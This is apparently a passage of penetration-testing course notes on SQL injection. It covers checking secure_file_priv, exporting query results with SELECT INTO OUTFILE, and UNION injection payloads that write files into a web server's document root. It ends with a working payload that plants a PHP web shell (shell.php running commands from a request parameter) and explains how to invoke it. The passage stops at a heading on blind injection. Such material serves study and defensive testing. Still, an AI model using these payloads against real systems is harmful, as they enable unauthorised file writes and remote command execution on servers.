 The final SQL query is the following:
```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

### SELECT INTO OUTFILE

The SELECT INTO OUTFILE statement can be used to write data from select queries into files. This is usually used for exporting data from tables.

To use it, we can add INTO OUTFILE '...' after our query to export the results into the file we specified. The below example saves the output of the users table into the /tmp/credentials file:
```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

It is also possible to directly SELECT strings into files, allowing us to write arbitrary files to the back-end server.
```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```


### Writing Files through SQL Injection

Let's try writing a text file to the webroot and verify if we have write permissions. The below query should write file written successfully to the /var/www/html/proof.txt file, which we can then access on the web application:
```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

The UNION injection payload would be as follows:
```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

### Writing a web shell

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

This can be verified by browsing to the /shell.php file and executing commands via the 0 parameter, with ?0=id in our URL.


# Boolean based SQL injection
There are two types of blind SQL injections: boolean-based and time-based.
